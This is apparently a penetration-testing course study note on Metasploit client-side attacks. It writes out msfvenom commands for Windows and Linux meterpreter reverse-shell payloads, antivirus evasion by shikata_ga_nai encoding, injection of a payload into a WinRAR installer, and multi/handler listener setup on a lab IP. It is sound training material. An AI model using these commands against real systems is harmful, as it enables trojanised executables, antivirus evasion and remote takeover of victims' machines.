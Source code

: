 # Client-Side Attacks

## [Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF <a href="#client-side-attacks-with-msf" id="client-side-attacks-with-msf"></a>

A **client-side attack** is a security breach that happens on the client side.

* Social engineering techniques take advantage of human vulnerabilities
* Require user-interaction to open malicious documents or portable executables (**`PEs`**)
* The payload is stored on the client's system
* Attackers have to pay attention to Anti Virus detection

> ❗ _**Advanced modern antivirus solutions detects and blocks this type of payloads very easily.**_

### [Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads <a href="#msfvenom-payloads" id="msfvenom-payloads"></a>

> [**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> * **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

* List available payloads

```bash
msfvenom --list payloads
```

* When generating a payload the exact name of the payload must be specified
  * target operating system
  * target O.S. architecture (x64, x86 ...)
  * payload type
  * protocol used to connect back (depends on requirements)

<figure><img src="../../../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>

**`e.g.`** of **Staged payload**

* `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

* `windows/x64/meterpreter_reverse_http`

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

### Windows Payload <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

* Generate a Windows payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f exe > ./Desktop/Windows_Payloads/payloadx86.exe 
```

**64bit payload:**

```bash
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f exe > ./Desktop/Windows_Payloads/payloadx64.exe
```

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

* List the output formats available

```bash
msfvenom --list formats
```

<figure><img src="../../../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

### Linux Payload

* Generate a Linux payload with `msfvenom`

**32bit payload:**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f elf > ./Desktop/Linux_Payloads/payloadx86 
```

**64bit payload:**

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -f elf > ./Desktop/Linux_Payloads/payloadx64
```

* 📌 _Platform and architecture are auto selected if not specified, based on the selected payload_

<figure><img src="../../../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

The transferring method onto the target system depends on the type of the social engineering technique.

* **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system

```bash
cd Desktop/Windows_Payloads
python3 -m http.server 8080
```

* To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

```bash
msfconsole -q
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.42.132
msf6 > set LPORT 1234
msf6 > run
```

<figure><img src="../../../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.

```bash
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > run
```

<figure><img src="../../../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

## Encoding Payloads <a href="#encoding-payloads" id="encoding-payloads"></a>

Signature based Antivirus solutions can detect malicious files or executables. Older AV solutions can be evaded by **encoding** the payloads.

* ❗ _This kind of attack vector is outdated and hardly used today_.
* May work on legacy old O.S. like Windows 7 or older.

🗒️ Payload **Encoding** involves changing the payload shellcode _with the aim of changing the payload signature_.

* [Encoding will not always avoid detection](https://docs.rapid7.com/metasploit/encoded-payloads-bypassing-anti-virus)

🗒️ **Shellcode** is the code typically used as a _payload_ for exploitation, that provides with a remote _command shell_ on the target system.

```bash
msfvenom --list encoders
```

<figure><img src="../../../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>

* Excellent encoders are **`cmd/powershell_base64`** and **`x86/shikata_ga_nai`**

### **Windows Payload**

* Generate a Win x86 payload and encode it with `shikata_ga_nai`:

```bash
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86
```

<figure><img src="../../../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

* The payload can be encoded as often as desired by increasing the number of iterations.
* The more iterations, the better chances to bypass an Antivirus. Use **`-i`** option.

```bash
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86
```

<figure><img src="../../../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

### **Linux Payload**

```bash
msfvenom -p  linux/x86/meterpreter/reverse_tcp LHOST=192.168.42.132 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86
```

<figure><img src="../../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

* Test each of the above generated payloads, like before

```bash
cd ~/Desktop/Windows_Payload
sudo python -m http.server 80
msfconsole -q

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.42.132
set LPORT 1234
run
```

<figure><img src="../../../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

> 📌 Modern antivirus detects and blocks the encoded payload as soon as the download is started:

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-0a77cc42fa547ba68f55942bb166da905d8fe024%252Fimage-20230415214414552.png%3Falt%3Dmedia&#x26;width=300&#x26;dpr=4&#x26;quality=100&#x26;sign=7f60652e&#x26;sv=1" alt=""><figcaption></figcaption></figure>

## Injecting Payloads into PEs <a href="#injecting-payloads-into-pes" id="injecting-payloads-into-pes"></a>

🗒️ [Windows **Portable Executable**](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit) (**PE**) _is a file format for executables, object code, DLLs and others, used in 32-bit and 64-bit Windows O.S._

* Download a portable executable, **`e.g.`** [WinRAR](https://www.win-rar.com/download.html)
* Payloads can be injected into PEs with `msfvenom` with the **`-x`** and **`-k`** options

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata_ga_nai -i 10 -x winrar-x32-701.exe -f exe > ~/Desktop/Windows_Payloads/winrar.exe
```

<figure><img src="../../../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

* Transfer and run the `winrar.exe` file to the target O.S.
* File description is kept, but not its functionality.
* Proceed with the Post Exploitation module to migrate the process into another one, in the `meterpreter` session

```bash
run post/windows/manage/migrate
```

## Automation with [Resource Scripts](https://www.offsec.com/metasploit-unleashed/writing-meterpreter-scripts/) <a href="#automation-with-resource-scripts" id="automation-with-resource-scripts"></a>

Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).

```bash
ls -al /usr/share/metasploit-framework/scripts/resource 
```

<figure><img src="../../../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

**`e.g. 1`**

* _Automate the process of setting up a handler for the generated payloads_, by creating a new `handler.rc` file

```bash
handler.rc *
                                           
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.42.132
set LPORT 1234 
run
```

* Load and run the recourse script in `msfconsole`

```bash
msfconsole -q -r handler.rc
```

<figure><img src="../../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

**`e.g. 2`**

```bash
db_status
workspace 
workspace -a TEST
```

<figure><img src="../../../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

**`e.g. 3`**

* Typed in commands in a new `msfconsole` session, can be exported in a new resource script

```bash
makerc ~/Desktop/portscan.rc
```

<figure><img src="../../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>
